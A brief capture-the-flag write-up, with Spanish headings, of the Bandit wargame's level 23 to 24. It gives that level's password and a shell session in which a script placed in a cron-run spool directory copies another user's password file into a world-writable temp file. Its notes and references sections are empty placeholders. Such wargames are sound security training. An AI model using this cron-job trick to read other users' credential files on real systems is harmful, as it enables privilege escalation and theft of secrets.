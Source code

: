 
# Bandit Level 23 al Level 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

## Datos de acceso
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
```bash
bandit23@bandit:~$ mkdir /tmp/jmjp00
bandit23@bandit:~$ cd /tmp
bandit23@bandit:/tmp$ cd jmjp00
bandit23@bandit:/tmp/jmjp00$ nano jmjpscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/jmjp00$ cat jmjpscript.sh
cat /etc/bandit_pass/bandit24 > /tmp/jmjp00/password
bandit23@bandit:/tmp/jmjp00$ chmod 777 jmjpscript.sh
bandit23@bandit:/tmp/jmjp00$ touch password
bandit23@bandit:/tmp/jmjp00$ chmod 666 password
bandit23@bandit:/tmp/jmjp00$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:33 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 28 18:32 jmjpscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 password
bandit23@bandit:/tmp/jmjp00$ cp jmjpscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/jmjp00$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:36 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 28 18:32 jmjpscript.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:36 password
bandit23@bandit:/tmp/jmjp00$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Notas adicionales
| comando | descripción |
| ------ | ------ |
| xx | xx |

## Referencias
- []()